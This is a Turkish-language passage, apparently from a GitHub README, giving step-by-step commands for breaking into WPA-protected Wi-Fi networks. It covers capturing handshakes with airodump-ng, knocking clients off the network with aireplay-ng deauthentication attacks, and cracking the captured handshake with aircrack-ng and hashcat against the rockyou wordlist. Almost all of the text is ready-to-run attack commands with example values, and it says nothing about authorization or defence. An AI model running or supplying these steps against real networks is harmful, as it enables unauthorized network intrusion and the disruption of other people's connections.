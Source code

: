 ### **🔹 Adım 3: Handshake Yakalama**

Belirli bir ağın handshake paketlerini yakalamak için:

bash

sudo airodump-ng -c [KANAL] --bssid [BSSID] -w handshake wlan0mon

📌 **Örnek:**

bash

sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w handshake wlan0mon

💡 **Bağlantıyı zorlamak için "Deauth Saldırısı" yapabilirsiniz.**

###

###

###

### **🔹 Adım 4: Deauthentication Saldırısı (Bağlantıyı Kesmek)**

📡 **Bir istemciyi düşürerek tekrar bağlanmasını sağlayabiliriz.**

bash

sudo aireplay-ng -0 10 -a [BSSID] -c [İSTEMCİ\_MAC] wlan0mon

📌 **Örnek:**

bash

sudo aireplay-ng -0 10 -a AA:BB:CC:DD:EE:FF -c 11:22:33:44:55:66 wlan0mon

💡 **Handshake başarıyla yakalandığında, .cap dosyasında saklanır.**

### **🔹 Adım 5: WPA Handshake Dosyasını Kırma**

🔹 **Aircrack-ng ile:**

bash

sudo aircrack-ng -w wordlist.txt -b [BSSID] handshake-01.cap

📌 **Örnek:**

bash

sudo aircrack-ng -w rockyou.txt -b AA:BB:CC:DD:EE:FF handshake-01.cap

💡 **Güçlü şifreler için büyük wordlist dosyaları gerekir.**

🔹 **Hashcat ile GPU kullanarak kırma:**

bash

hashcat -m 22000 handshake-01.cap rockyou.txt --force

📌 **Wordlist'in içinde şifre yoksa, saldırı başarısız olur.**
